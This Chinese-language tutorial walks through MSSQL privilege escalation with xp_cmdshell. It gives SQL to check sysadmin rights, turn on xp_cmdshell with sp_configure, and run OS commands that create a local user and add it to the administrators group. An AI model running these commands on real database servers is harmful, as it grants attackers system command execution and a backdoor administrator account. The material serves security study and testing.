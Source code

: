 ## 三、MSSQL提权

### 1. 利用条件

1. 必须**获得sa的账号密码**或者与sa相同权限的账号密码，且**mssql没有被降权**
2. 必须可以**以某种方式执行sql语句**

### 2. xp_cmdshell提权

1. 连接数据库，获取所有数据库名

   ```sql
   select name from master.dbo.sysdatabases
   ```

   ![获取所有数据库名](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410301007064.png)

2. 查看相关信息

   ```sql
   select @@version	#查看当前版本
   select is_srvrolemember('sysadmin')		#判断是否为sa
   select is_srvrolemember('public')		#判断是否有public权限，可以爆破表
   select is_srvrolemember('db_owner')		#判断用户写、读文件的权限
   ```

   ![查看相关信息](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410301009693.png)

3. 查看数据库中是否有xp_cmdshell扩展存储插件，返回值为1说明有该插件

   ```sql
   select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
   ```

   ![查看扩展插件](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410301009202.png)

4. 开启xp_cmdshell

   ```sql
   exec sp_configure 'show advanced options',1;
   reconfigure;
   exec sp_configure 'xp_cmdshell',1;
   reconfigure;
   ```

   ![开启xp_cmdshell](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410301010997.png)

5. 执行命令

   ```sql
   exec master..xp_cmdshell 'net user test test1234 /add'
   exec master..xp_cmdshell 'net localgroup administrators test /add'
   ```

![执行命令](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410301015687.png) 
